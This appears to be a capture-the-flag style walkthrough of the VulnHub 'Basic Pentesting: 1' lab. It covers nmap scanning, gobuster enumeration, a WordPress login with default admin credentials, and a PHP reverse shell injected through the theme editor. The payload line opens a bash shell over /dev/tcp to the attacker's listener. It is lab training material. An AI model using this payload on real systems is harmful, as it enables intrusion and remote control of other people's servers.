# Basic Pentesting: 1

- **Machine:** Basic Pentesting: 1
- **Download:** https://www.vulnhub.com/entry/basic-pentesting-1,216/



---

## Setup

- Import the `.ova` file into VirtualBox.
- Click **Finish**.
- Start the virtual machine.

---

# Network Scanning

## Find the Target IP Address

```bash
nmap -sn 192.168.31.0/24
```



---

### Full Port Scan

```bash
nmap -v -p- 192.168.31.160
```



---

### Service & Version Detection

```bash
nmap -sC -sV -A 192.168.31.160
```



---

### HTTP Enumeration

This command performs an aggressive scan and runs the `http-enum` NSE script to discover interesting web directories.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.31.160
```



---

# Web Enumeration

Visit the following URLs:

- http://192.168.31.160/
- http://192.168.31.160/secret/



---

## Directory Enumeration

Run Gobuster against the web root.

```bash
gobuster dir -u http://192.168.31.160/ -w /usr/share/wordlists/dirb/common.txt
```



Enumerate the `/secret` directory.

```bash
gobuster dir -u http://192.168.31.160/secret/ -w /usr/share/wordlists/dirb/common.txt
```



---

## Interesting Endpoints

Visit:

- http://192.168.31.160/secret/wp-includes/
- http://192.168.31.160/secret/wp-admin/

---

## WordPress Login

Try the default credentials.

```text
Username: admin
Password: admin
```



Successful login to the WordPress admin dashboard.

---

# Reverse Shell (Lab)

> **Lab note:** The following steps are intended only for an authorized practice machine such as this VulnHub VM.

Navigate to:

- **Appearance**
- **Theme File Editor**

---

## Locate the Theme File

Open the **404.php** file.



---

## Start a Listener

```bash
nc -nlvp 443
```

---

## Trigger Reverse Shell

Inject the reverse shell payload into `index.php`.

```php
system("bash -c 'bash -i >& /dev/tcp/192.168.31.206/443 0>&1'");
```



---

## Receive the Shell

Once the payload is executed, a reverse shell is established.



---

# Impact

- Remote Code Execution (RCE)
- Initial access as the `www-data` user
- Opportunity for privilege escalation

---

# Key Learning

- Default credentials can lead to full administrative access.
- Hidden directories should always be enumerated.
- Administrative access can expose dangerous functionality if not properly restricted.
- After initial access, further exploitation may allow deeper system compromise.

---

# Summary

The target exposed a WordPress installation that accepted default administrative credentials. After gaining administrative access, a PHP payload was added through the theme editor, resulting in remote code execution and an initial shell as the `www-data` user.